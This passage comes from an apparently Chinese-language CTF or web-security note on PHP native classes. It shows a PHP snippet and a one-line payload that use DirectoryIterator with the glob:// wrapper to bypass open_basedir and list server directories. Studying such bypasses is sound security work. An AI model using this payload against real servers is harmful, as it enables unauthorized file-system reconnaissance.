 <img src="./PHP原生类/15.png" alt="">

<img src="./PHP原生类/16.png" alt="">

#### trick:使用可遍历目录类绕过 open_basedir
> 使用 DirectoryIterator 类

```php
<?php
$dir = $_GET['whoami'];
$a = new DirectoryIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>

# payload一句话的形式:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```
